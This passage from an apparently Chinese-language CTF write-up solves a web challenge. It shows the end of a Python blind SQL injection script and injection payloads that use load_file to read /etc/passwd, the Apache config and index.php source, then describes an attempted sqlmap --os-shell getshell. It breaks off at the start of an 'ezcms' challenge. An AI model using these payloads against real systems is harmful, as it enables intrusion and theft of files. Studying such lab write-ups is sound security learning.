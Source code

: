 ```python
                    bot = mid(bot, top) + 1
                else:
                    top = mid(bot, top)
            except:
                continue
        name += chr(top)
        print(name)

if __name__ == '__main__':
    sqli()

```

注出密码，登陆之后，你就中计了；

![image-20201226235325587](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210104164406.png)

扫目录可以扫到很多json，里面含有一些组件信息

![image-20201226235519551](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210104165914.png)

不过查看了一下，这个框架这个版本目前是没有符合情景的漏洞的；

![image-20201226235633677](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210104165741.png)

真正的利用点其实就在一开始的登陆界面，没有任何waf其实也挺奇怪，说明这道题可能不是常规考点

读取/etc/passwd：

```
0'||ascii(substr((select load_file('/etc/passwd')),1,1))>79#
```

发现能读，但是`/var/www/html`路径却读不到东西；

那么猜测web路径可能被改了，改了就可以猜，猜不到就只能读；

md，确实猜不到。

读取`/etc/apache2/apache2.conf`(太长了我就不贴代码了)，其中有一个路径值得关注：

![image-20201227000708960](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210104164649.png)

没错，web路径就是`/var/sercet/html/`，用`0'||ascii(substr((select load_file('/var/sercet/html/index.php')),1,1))>79#`可以读取index.php的源码：

![image-20201227001109957](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210104164653.png)

SQLmap一梭子Getshell

使用--file-dest和--file-write参数的话，只能创建那个文件但是不能写入内容。这里只能用--os-shel来进行写入；

遇到玄学，没梭进去。。。。按理说是没问题的，sqlmap写的时候会神必在后面拼接路径，然后好像只有web根目录可以写

### ezcms

扫目录`www.zip`下载源码
